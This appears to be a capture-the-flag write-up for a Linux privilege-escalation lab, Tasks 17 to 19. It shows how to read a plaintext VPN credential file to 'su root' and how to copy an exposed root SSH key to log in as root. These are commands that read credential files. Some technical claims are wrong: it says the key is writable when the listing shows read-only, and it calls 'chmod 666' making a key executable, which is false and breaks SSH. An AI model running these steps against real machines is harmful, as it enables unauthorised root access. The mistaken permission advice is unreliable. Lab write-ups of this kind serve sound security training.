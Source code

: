 #  [Task 17] Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.
In home directory you will find *myvpn.ovpn* config file. View the contents of the file: ```cat /home/user/myvpn.ovpn```

```console
user@debian:~$ cat /home/user/myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

user@debian:~$ cat /etc/openvpn/auth.txt
root
password123
``` 
Switch to the root user, using the credentials:``` su root```

# [Task 18] Passwords & Keys - SSH Keys 
Sometimes users make backups of important files but fail to secure them with the correct permissions. at the root directory ```/``` you will find a hidden file call ```.ssh```. View the contents of the directory
```console
user@debian:~$ ls -la /.ssh/
total 12
drwxr-xr-x  2 root root 4096 Aug 25  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rw-r--r--  1 root root 1679 Aug 25  2019 root_key
```
As you can see we have a premission to read+write to ```root_key``` let copy the content of the file and to our machine and ssh to the target again using root cerdential. Dont for get to make the copied root_key executable by using ```chmod 666```. now run:
```console
bibo318@parrot:~/LinuxPrivEsc$ ls
cracked.txt  root_key  root.txt  shell.elf
bibo318@parrot:~/LinuxPrivEsc$ ssh -i root_key root@<target ip>
Last login: Sun Aug 25 XXXXXXXXX from xxxxxxxx
root@debian:~# 
```
#  [Task 19] NFS
Before start doing this room, I would recommended to read this two links. [link1](https://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html), [link2](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/s2-server-nfs-noroot)
